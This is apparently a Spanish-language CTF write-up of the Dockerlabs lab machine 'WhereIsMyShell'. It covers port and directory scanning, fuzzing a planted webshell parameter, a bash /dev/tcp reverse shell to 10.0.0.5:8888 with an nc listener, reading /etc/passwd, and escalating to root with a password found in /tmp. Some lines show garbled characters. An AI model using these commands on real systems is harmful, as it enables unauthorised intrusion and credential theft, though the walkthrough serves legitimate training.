

# Write-up: 

- **Nombre de la máquina:** `WhereIsMyShell` 
- **Plataforma:** `Dockerlabs` 
- **IP:** `172.17.0.2` 
- **SO:** `Linux` 
- **Dificultad:** `Fácil`

---

## 1. RECONOCIMIENTO

El objetivo de esta fase es identificar los puntos de entrada y servicios expuestos en la máquina víctima.

#### 1.1. Verificación de Conectividad

Se lanza un `ping` para confirmar que la máquina está activa y obtener el TTL lo que puede darnos una primera pista sobre el sistema operativo.
```	
ping 172.17.0.2
```

Nos devuelve conectividad y un TTL=64 por lo que estamos ante una máquina Linux.

<p align="center">
    
</p>

#### 1.2. Escaneo de Puertos

Se realiza un escaneo con **Nmap** para descubrir puertos abiertos, los servicios que corren en ellos y sus versiones.

```
sudo nmap -p- -sV -sC -sS --min-rate 5000 --open -n -Pn 172.17.0.2 -oN port_scan.txt
```

**Puertos Descubiertos:**

| Puerto | Servicio | Versión       | Notas                                |
| ------ | -------- | ------------- | ------------------------------------ |
| 80     | http     | Apache 2.4.57 | Iniciaremos por aquí. No hay otro XD |

<p align="center">
    
</p>

Normalmente el acceso por el puerto 22 al servicio ssh requiere de credenciales. Ya sea usuario y contraseña o clave rsa. En este caso carecemos de información al respecto así que lo más productivo es explorar el puerto :80

---

## 2. ENUMERACIÓN

Una vez identificados los servicios, se procede a investigarlos en profundidad en busca de vulnerabilidades o información útil.

### Puerto 80 ( HTTP)

#### Enumeración Manual:

- **Navegación web:** Se visita el sitio en `http://172.17.0.2.
    Vemos una frase : "==Pista==: "Guardo un secretito en /temp;)"
<p align="center">
    
</p>

- **Análisis del código fuente:** Se revisa el HTML en busca de comentarios, rutas o scripts ocultos.
    No encontramos nada relevante
	
<p align="center">
    
</p>

- **Archivos comunes:** Se buscan manualmente archivos y directorios comunes:
	- `/robots.txt`-->X
	- `/sitemap.xml`--> X
	- `/login`--> X
	- `/admin`--> X
	- `/panel`--> X
	- `/user`--> X
	- `/panel`--> X
	- `/backup`--> X
	- `/uploads`--> X
	- `test, etc.`--> X
    
    No encontramos nada
#### Enumeración Automática:
- Lanzamos la herramienta `whatweb` para que nos de información sobre la aplicación web. 
```
whatweb 172.17.0.2
```

<p align="center">
    
</p>

Nada relevante. 


- Lanzamos la herramienta de enumeración `gobuster` para buscar directorios ocultos y extensiones .php,.txt y .html 

```
gobuster dir -u http://172.17.0.2/ -w /urs/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,txt,html -k
```

<p align="center">
    
</p>

**Hallazgos:**
Vemos  rutas llamativas:
- 172.17.0.2/shell.php: 
  Podemos ver una página en blanco...
	
- 172.17.0.2/warning.html:
	Podemos leer: `Esta web ha sido atacada por otro hacker, pero su webshell tiene un parámetro que no recuerdo... `
<p align="center">
    
</p>

Teniendo como pista que existe un parámetro que no recuerda haremos fuzzing a `shell.php` y encontramos el parámetro :

<p align="center">
    
</p>


Con el que hemos podido ejecutar la consola en `shell.php`
<p align="center">
    
</p>

Si hemos podido ejecutar comandos en una consola, utilizaremos esta brecha para ejecutar una `revershell`


---

## 3. EXPLOTACIÓN

### 3.1 Acceso inicial:

Ejecutaremos la revershell en dos pasos sencillos:
1. Levantaremos un puerto de escucha, en nuestro caso el 8888
```
   sudo nc -nvlp 8888
```
   
3. Generaremos un código en https://www.revshells.com/ que abusando de la vulnerabilidad que hemos encontrado`RCE- Ejecución remota de comandos`  nos ejecutara la revershell y tendremos acceso desde nuestra terminal. 
   
```
 http://172.17.0.2/shell.php?parameter=bash%20-c%20%22/bin/bash%20-i%20%3E%26%20/dev/tcp/10.0.0.5/8888%200%3E%261%22
```

<p align="center">
    
</p>


---

## 4. ESCALADA DE PRIVILEGIOS

Una vez dentro, el objetivo es elevar los privilegios del usuario actual al de `root`.

### 4.1. Enumeración Interna

Se realizan comprobaciones básicas y se buscan posibles vectores de escalada.

#### Comprobaciones del sistema:

쮸 qu칠 grupo pertenezco?
```
id
```
<p align="center">
    
</p>

쯈u칠 usuario hay en el sistema?
쯈u칠 usuario tienen una shell asignada?

```
cat /etc/passwd | grep sh
```


<p align="center">
    
</p>


#### Búsqueda del Vector de Escalada:

Si recordamos en la pista encontrada anteriormente nos decían que escondían un secreto en `/tmp`. Lo revisamos:
`/tmp`:

<p align="center">
    
</p>

Encontramos el archivos `.secret.txt` donde encontramos la contraseña de `root`
<p align="center">
    
</p>

**Credenciales obtenidas:**
- **Usuario:** `root`
- **Contraseña:** `contraseñaderoot123`

### 4.2. Explotación y Escalada a Root

Probamos las credenciales encontradas y BINGO🚀 


<p>
    
</p>


SOMOS ROOT🚀


